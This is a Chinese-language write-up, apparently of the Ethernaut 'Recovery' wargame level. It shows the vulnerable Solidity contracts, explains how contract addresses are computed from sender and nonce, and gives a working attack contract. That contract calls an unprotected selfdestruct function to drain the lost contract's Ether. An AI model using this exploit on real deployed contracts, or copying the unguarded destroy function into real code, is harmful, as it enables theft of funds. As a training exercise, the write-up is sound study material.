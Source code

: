 # Recovery
Recovery要求我們回復在合約中的0.001個Ether，讓我們看一下代碼。

## 合约代碼
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```
## 代碼分析
我們在這一關從console中獲得的instance address是Recovery合約的地址，而它部署的SimpleToken合約我們并不知道地址。如果不知道地址，我們就無法調用SimpleToken合約中的destroy函數用selfdestruct返還給我們代幣。這裏就需要我們瞭解合約地址生成的規律。
根據[以太坊黃皮書](https://ethereum.github.io/yellowpaper/paper.pdf),賬號地址生成的規律是：
>The address of the new account is defined as being the rightmost 160 bits of the Keccak-256 hash of the RLP encoding of the structure containing only the sender and the account nonce.
簡單來説就是將sender的地址和交易nonce以RLP編碼后，對其進行Keccak-256哈希，然後取哈希值的右邊20bytes作為新賬號的地址。
在獲取到SimpleToken的合約地址以後，我們就可以調用SimpleToken合約中的destroy函數，將合約銷毀，並且將合約中的0.001個Ether返還給我們。

## 攻擊代碼
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface IRecovery {
    function destroy(address payable _to) external;
}


contract Recoverycontract {
    function cal_contract_address(address _from, uint256 nonce) external pure returns(address) {
        address target = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), _from, bytes1(uint8(nonce)))))));
        return target;
    }

    function recovery(address _target) public {
        IRecovery(_target).destroy(payable(msg.sender));
    }
}

## 攻擊過程
1.部署Recoverycontract合約，並且調用cal_contract_address函數，將instance的合約地址和nonce(即1）作爲入參，獲取SimpleToken合約的地址。
2.將SimpleToken合約的地址作爲入參調用recovery函數，完成任務。


